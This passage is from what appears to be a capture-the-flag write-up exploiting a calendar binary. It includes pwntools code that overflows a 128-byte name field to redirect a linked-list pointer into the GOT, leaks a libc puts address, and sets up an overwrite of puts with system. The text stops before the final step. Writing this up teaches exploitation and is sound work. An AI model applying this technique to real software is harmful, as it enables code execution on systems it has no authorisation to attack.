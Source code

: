 From here, we need a few things:
1. To leak a libc address from the GOT table.
2. Use the leak to calculate the address of system within the libc file.
3. Overwrite the GOT entry of puts with system. 

The reason why we need to leak a libc address is that the base address of the libc file changes every time due to the ASLR protection that is enabled by default on most systems. 99% of the time it will be running. In that case, we need to find a address and do the math for the actual libc base of that runtime. 

Since the offsets to functions like puts and system never change, it will be relatively simple to calculate. Pwntools also includes a few tools to make this easier.

Now for the actual exploit. 
We can send 128 arbitrary bytes to fill the name field. Then, we send the address of the GOT entry for puts, which we found earlier with the `got` command. This will make the next* field for cur point to the location of puts in GOT instead of an actual node for a linked list. 

```python
p.recv()
p.sendline(b"1")
p.recv()
p.sendline(b"l" * 128 + p32(0x1337) + p64(0x404008))
p.recvuntil(b"ll7\x13\n")
data = p.recvline()
```

If we continue running the binary, the `displayEvents` function will see the first calendar event and print it. However, since we changed the next* field, it will see a non-empty int field and continue printing.

```
1:00 - llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll7\x13
3607693136:00 - \x85|
```
This is the output from the `displayEvents` function. Since curr->next points to the GOT entry, the first 4 bytes are interpreted as the time field, and the rest as the name field. With some wonky code we can reconfigure the leaked puts address. 

```python
def parse_leaked_address(line):
    leaked = line.split(b":00 - ")[1].strip()
    leaked = leaked.split(b"\n")[0]
    loc = str(line).find(":00")
    addr_rest = str(line)[2:loc]
    return int(str(hex(u64(leaked.ljust(8, b'\x00')))) + str(hex(int(addr_rest)))[2:], 0)
```

Once `displayEvents` finishes, it updates curr to point to curr->next with this line:
```
cur = cur->next;
```

So now, curr points to our GOT entry of puts. This is good as now when the binary asks for our input, it will be overwriting the value stored in the GOT table. We will just have to calculate the system address and parse it so we can send the time and name that fit. Just like before, 4 bytes are turned into time and the last two are used for name. 
